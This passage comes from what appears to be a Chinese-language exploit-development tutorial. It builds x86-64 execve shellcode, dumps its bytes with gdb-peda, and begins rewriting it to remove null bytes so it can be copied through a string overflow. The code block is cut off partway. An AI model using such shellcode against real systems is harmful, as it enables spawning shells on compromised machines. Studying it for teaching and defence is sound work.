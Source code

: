 Wow，我们的shellcode完全可行，但是现在还并没有结束。众所周知，程序在内存中都是以二进制的形式保存的，我们的程序也不例外，因为我们需要将我们的shellcode传递到缓冲区中去，如果直接传递代码，那显然是不行的，我们要传递的应该是编译生成的二进制才对，这样在目标机器上直接就可以执行。现在，我们使用gdb将我们的程序转换为二进制（确切的说应该是16进制，不过都一样嘛）

```bash
$ gdb gdb shellcode_test
....
gdb-peda$ disassemble main 
Dump of assembler code for function main:
   0x00000000000005fa <+0>:	push   %rbp
   0x00000000000005fb <+1>:	mov    %rsp,%rbp
   0x00000000000005fe <+4>:	jmp    0x639 <main+63>
   0x0000000000000600 <+6>:	pop    %rbx
   0x0000000000000601 <+7>:	mov    %rbx,0x8(%rsp)
   0x0000000000000606 <+12>:	movb   $0x0,0x7(%rsp)
   0x000000000000060b <+17>:	movl   $0x0,0x10(%rsp)
   0x0000000000000613 <+25>:	mov    $0x3b,%rax
   0x000000000000061a <+32>:	mov    %rbx,%rdi
   0x000000000000061d <+35>:	lea    0x8(%rsp),%rsi
   0x0000000000000622 <+40>:	lea    0x10(%rsp),%rdx
   0x0000000000000627 <+45>:	syscall 
   0x0000000000000629 <+47>:	mov    $0x3c,%rax
   0x0000000000000630 <+54>:	mov    $0x0,%rdi
   0x0000000000000637 <+61>:	syscall 
   0x0000000000000639 <+63>:	callq  0x600 <main+6>
   0x000000000000063e <+68>:	(bad)  
   0x000000000000063f <+69>:	(bad)  
   0x0000000000000640 <+70>:	imul   $0x90006873,0x2f(%rsi),%ebp
   0x0000000000000647 <+77>:	pop    %rbp
   0x0000000000000648 <+78>:	retq   
End of assembler dump.
gdb-peda$ x /64xb main+4
0x5fe <main+4>:	0xeb	0x39	0x5b	0x48	0x89	0x5c	0x24	0x08
0x606 <main+12>:	0xc6	0x44	0x24	0x07	0x00	0xc7	0x44	0x24
0x60e <main+20>:	0x10	0x00	0x00	0x00	0x00	0x48	0xc7	0xc0
0x616 <main+28>:	0x3b	0x00	0x00	0x00	0x48	0x89	0xdf	0x48
0x61e <main+36>:	0x8d	0x74	0x24	0x08	0x48	0x8d	0x54	0x24
0x626 <main+44>:	0x10	0x0f	0x05	0x48	0xc7	0xc0	0x3c	0x00
0x62e <main+52>:	0x00	0x00	0x48	0xc7	0xc7	0x00	0x00	0x00
0x636 <main+60>:	0x00	0x0f	0x05	0xe8	0xc2	0xff	0xff	0xff
```

可以看到，除了字符串以外，我们的程序是从第4行到第63行，由于字符串在内存中保存的是ascii码，这里也就不需要获取其二进制了。

好了，现在我们已经有了shellcode的二进制了，但是还有一个问题。可以看到，我们的程序中有0x00这种数据，由于我们的shellcode作为字符串传递到缓冲区中的，这代表的恰恰也是字符串的结束，也就是说，当我们的字符串往缓冲区拷贝的时候，当遇到0x00时，无论我们的shellcode有没有拷贝完，都会停止拷贝。我们可不想我们费尽千辛万苦写出的shellcode竟然只被拷贝的残缺不全。下面，我们改进一下我们的程序。

```C
shellcode_test1.c
void main() {
    __asm__(
        "jmp mycall\n\t"
        "func: pop %rbx\n\t"
        "mov %rbx, 0x8(%rsp)\n\t"
        "xor %rax, %rax\n\t"
        "movb %al, 0x7(%rsp)\n\t"
        "movl %eax, 0x10(%rsp)\n\t"
        "movb $0x3b, %al\n\t"
        "mov %rbx, %rdi\n\t"
        "lea 0x8(%rsp), %rsi\n\t"
        "lea 0x10(%rsp), %rdx\n\t"
        "syscall\n\t"
        "xor %rdi, %rdi\n\t"
        "xor %rax, %rax\n\t"
        "movb $60, %al\n\t"
        "syscall\n\t"
```